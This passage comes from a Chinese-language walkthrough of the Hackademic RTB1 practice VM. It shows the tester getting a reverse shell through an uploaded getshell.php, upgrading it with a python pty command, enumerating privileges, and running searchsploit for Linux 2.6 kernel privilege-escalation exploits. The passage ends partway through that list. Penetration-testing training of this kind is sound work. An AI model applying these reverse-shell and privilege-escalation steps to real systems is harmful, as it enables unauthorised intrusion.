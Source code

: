     再访问`/Hackademic_RTB1/wp-content/getshell.php`
    
    最后查看kali，发现反弹shell成功
    
    ```php
    istening on [any] 1234 ...
    192.168.75.132: inverse host lookup failed: Unknown host
    connect to [192.168.75.131] from (UNKNOWN) [192.168.75.132] 49339
    bash: no job control in this shell
    bash-4.0$ ls
    ls
    getshell.php
    getshell_01.php
    plugins
    themes
    bash-4.0$ 
    ```
    

## 提权

1. 先用python增强shell的交互性
    
    ```php
    // 靶机shell
    python -c "import pty;pty.spawn('/bin/bash')"
    ```
    
2. 查看shell权限
    
    ```php
    // 靶机shell
    bash-4.0$ whoami
    apache
    
    bash-4.0$ dpkg -l
    bash: dpkg: command not found
    
    bash-4.0$ sudo -l
    sudo: sorry, you must have a tty to run sudo
    
    bash-4.0$ uname -a
    Linux HackademicRTB1 2.6.31.5-127.fc12.i686 #1 SMP Sat Nov 7 21:41:45 EST 2009 i686 i686 i386 GNU/Linux
    
    ```
    
    用户是`apache` ，`dpkg`和 `sudo` 无法使用，内核版本是`2.6.31.5` ，权限是比较低的
    
3. 因为ssh是关闭的，所以我们找密码也没有用处，看到内核版本比较老，可以尝试一下搜索内核漏洞，但是内核版本不太太详细，否则或错过一些好使的漏洞，并且过滤 “`Privilege Escalation`” - 权限提升
    
    ```php
    searchsploit Linux Kernel 2.6 | grep "Privilege Escalation"
    ```
    
    ```php
    Linux Kernel (Solaris 10 / < 5.10 138888-01) - Local Privilege Escalation | solaris/local/15962.c
    Linux Kernel 2.2.25/2.4.24/2.6.2 - 'mremap()' Local Privilege Escalation  | linux/local/160.c
    Linux Kernel 2.4.x/2.6.x - 'uselib()' Local Privilege Escalation (3)      | linux/local/895.c
    Linux Kernel 2.4/2.6 - 'sock_sendpage()' Local Privilege Escalation (3)   | linux/local/9641.txt
    Linux Kernel 2.6.0 < 2.6.31 - 'pipe.c' Local Privilege Escalation (1)     | linux/local/33321.c
    Linux Kernel 2.6.10 < 2.6.31.5 - 'pipe.c' Local Privilege Escalation      | linux/local/40812.c
    Linux Kernel 2.6.13 < 2.6.17.4 - 'sys_prctl()' Local Privilege Escalation | linux/local/2004.c
    Linux Kernel 2.6.13 < 2.6.17.4 - 'sys_prctl()' Local Privilege Escalation | linux/local/2005.c
    Linux Kernel 2.6.13 < 2.6.17.4 - 'sys_prctl()' Local Privilege Escalation | linux/local/2006.c
    Linux Kernel 2.6.13 < 2.6.17.4 - 'sys_prctl()' Local Privilege Escalation | linux/local/2011.sh
    Linux Kernel 2.6.17 - 'Sys_Tee' Local Privilege Escalation                | linux/local/29714.txt
    Linux Kernel 2.6.17 < 2.6.24.1 - 'vmsplice' Local Privilege Escalation (2 | linux/local/5092.c
    Linux Kernel 2.6.17.4 - 'proc' Local Privilege Escalation                 | linux/local/2013.c